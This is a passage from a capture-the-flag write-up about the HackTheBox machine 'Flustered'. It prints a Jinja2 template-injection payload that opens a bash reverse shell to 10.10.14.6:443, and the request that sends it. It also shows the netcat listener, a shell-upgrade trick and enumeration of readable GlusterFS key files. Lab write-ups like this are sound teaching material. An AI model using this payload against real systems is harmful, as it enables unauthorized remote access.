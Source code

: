 I’ll modify that again to get a reverse shell, and (with `nc` listening on
443) send it:

    
    
    >>> payload = '''{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read()}}{%endif%}{%endfor%}'''
    >>> resp = requests.post('http://10.10.11.131/', json={"siteurl": payload}); print(resp.text)
    

It just hangs for a minute or so (before returning a 504), but at `nc`,
there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.131 53856
    bash: cannot set terminal process group (632): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@flustered:~/html/app$
    

I’ll upgrade with the `script` trick:

    
    
    www-data@flustered:~/html/app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@flustered:~/html/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@flustered:~/html/app$
    

## Shell as jennifer

### Enumeration

There’s not much to find in the web directories. There’s one user with a home
directory, jennifer, but www-data can’t access it:

    
    
    www-data@flustered:/home$ ls -l
    total 4
    drwxr-x--- 5 jennifer jennifer 4096 Oct 25 06:49 jennifer
    

www-data can read files in `/etc/ssl` (which isn’t the default config):

    
    
    www-data@flustered:/etc/ssl$ ls -l
    total 44
    drwxr-xr-x 2 root root 16384 Jan 28 10:00 certs
    -rw-r--r-- 1 root root  4060 Nov 25 15:42 glusterfs.ca
    -rw-r--r-- 1 root root  3243 Nov 25 15:24 glusterfs.key
    -rw-r--r-- 1 root root  1822 Nov 25 15:27 glusterfs.pem
    -rw-r--r-- 1 root root 11118 Aug 24 09:30 openssl.cnf
    drwx------ 2 root root  4096 Jan 28 10:00 private
    